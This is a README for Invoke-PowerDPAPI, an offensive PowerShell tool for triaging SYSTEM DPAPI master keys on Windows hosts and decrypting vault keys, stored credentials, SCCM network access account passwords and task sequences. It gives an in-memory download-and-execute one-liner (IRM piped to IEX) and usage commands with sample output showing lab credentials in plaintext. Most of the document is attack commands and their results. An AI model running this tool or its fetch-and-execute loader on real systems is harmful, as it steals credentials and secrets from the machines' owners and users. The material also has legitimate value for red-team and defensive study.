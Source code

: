 # Invoke-PowerDPAPI
Invoke-PowerDPAPI is a PowerShell port of some [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) and [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) functionality.

For the moment this is limited to SYSTEM level functions such as triaging SYSTEM master keys and decrpypting the following secrets:

- System Vaults
- System Credentials
- SCCM NAA accounts (WMI / Disk)
- SCCM Task Sequences (WMI / Disk)

## Future Updates

Not all SharpDPAPI functionality will be implemented into this port. This will be limited to functionality that fits my workflow and code that I believe can be reused in further projects.

Future updates to be completed:
- User level DPAPI
- Automate takeover of each user logon session and decrypt each user DPAPI secret
- SYSTEM Certificates
- Domain Backup key support

## Requirements

❗ Invoke-PowerDPAPI must be executed in a high integrity process

## Load into memory
```powershell
IRM "https://raw.githubusercontent.com/The-Viper-One/Invoke-PowerDPAPI/refs/heads/main/Invoke-PowerDPAPI.ps1" | IEX
```

## Usage

### Triage Everything
> Runs MachineVaults, MachineCredentials, SCCM_Disk and SCCM_WMI

```powershell
Invoke-PowerDPAPI MachineTriage
```
&nbsp;

### Triage MachineVaults
```powershell
Invoke-PowerDPAPI MachineVaults
```
```
[*] Triaging SYSTEM Vaults

[*] Triaging Vault Folder: C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

  VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Name               : Web Credentials
    guidMasterKey    : {e922342f-143e-4b65-a25b-e83354a47007}
    size             : 324
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :
    guidMasterKey    :
    size             : 324
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Vault Policy Key
    aes128 key       : 17D5264E849A7136427830A4835B8669
    aes256 key       : 428397F3F8260174A5923BC66CC014CB2D3C4ABAFB5FFBC90D7A959DC4DC817C
```
&nbsp;

### Triage MachineCredentials
```powershell
Invoke-PowerDPAPI MachineCredentials
```
```
[*] Triaging System Credentials

Folder       : C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

  CredFile           : 3F38B7EDDCC210906994CAC4A9077348
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 544
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data

    guidMasterKey    :
    size             : 264
    flags            : 0x00000030 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data
    LastWritten      : 6/19/2025 12:18:59 AM
    TargetName       : Domain:batch=TaskScheduler:Task:{52340B14-C919-4223-970B-103AAAFE2720}
    TargetAlias      :
    Comment          :
    UserName         : ludus\domainuser
    Credential       : password
```
&nbsp;

### Triage SCCM (WMI and Disk)
> Runs SCCM_WMI and SCCM_Disk
```powershell
Invoke-PowerDPAPI SCCM
```
&nbsp;

### Triage SCCM (WMI)
```powershell
Invoke-PowerDPAPI SCCM_WMI
Invoke-PowerDPAPI SCCM_WMI -SaveTS # Saves Task Sequences in XML format to PWD
```
```
[+] Found 1 Network Access Account(s)
[+] Decrypting network access account credentials

    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 266
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 250
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :


    Network Access Username: ludus\sccm_naa_2
    Network Access Password: password123

[+] Found 2 Task Sequence(s)
[+] Decrypting Task Sequences

    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 8042
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :

[+]    Task Sequence:
<sequence version="3.10">
  <step type="SMS_TaskSequence_RunCommandLineAction" name="Run SQL CMD" description="" runIn="WinPEandFullOS" successCodeList="0 3010" retryCount="0" runFromNet="false">
    <action>smsswd.exe /run: sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</action>
    <defaultVarList>
      <variable name="CommandLine" property="CommandLine" hidden="true">sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</variable>
      <variable name="SMSTSDisableWow64Redirection" property="DisableWow64Redirection">false</variable>
      <variable name="SMSTSRunCommandLineOutputVariableName" property="OutputVariableName">
      </variable>
      <variable name="_SMSTSRunCommandLineAsUser" property="RunAsUser">false</variable>
      <variable name="SuccessCodes" property="SuccessCodes" hidden="true">0 3010</variable>
    </defaultVarList>
  </step>
</sequence>
```
&nbsp;

### Triage SCCM (Disk)
```powershell
Invoke-PowerDPAPI SCCM_Disk
Invoke-PowerDPAPI SCCM_Disk -SaveTS # Saves Task Sequences in XML format to PWD
```
```
[+] Decrypting 1 network access account secrets
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 266
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 250
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :

    NetworkAccessUsername: ludus\sccm_naa_2
    NetworkAccessPassword: password123

[+] Decrypting 1 task sequence secrets
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 2154
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :

<sequence version="3.10">
  <step type="SMS_TaskSequence_RunCommandLineAction" name="Run SQL CMD" description="" runIn="WinPEandFullOS" successCodeList="0 3010" retryCount="0" runFromNet="false">
    <action>smsswd.exe /run: sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</action>
    <defaultVarList>
      <variable name="CommandLine" property="CommandLine" hidden="true">sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</variable>
      <variable name="SMSTSDisableWow64Redirection" property="DisableWow64Redirection">false</variable>
      <variable name="SMSTSRunCommandLineOutputVariableName" property="OutputVariableName">
      </variable>
      <variable name="_SMSTSRunCommandLineAsUser" property="RunAsUser">false</variable>
      <variable name="SuccessCodes" property="SuccessCodes" hidden="true">0 3010</variable>
    </defaultVarList>
  </step>
</sequence>
```
&nbsp;

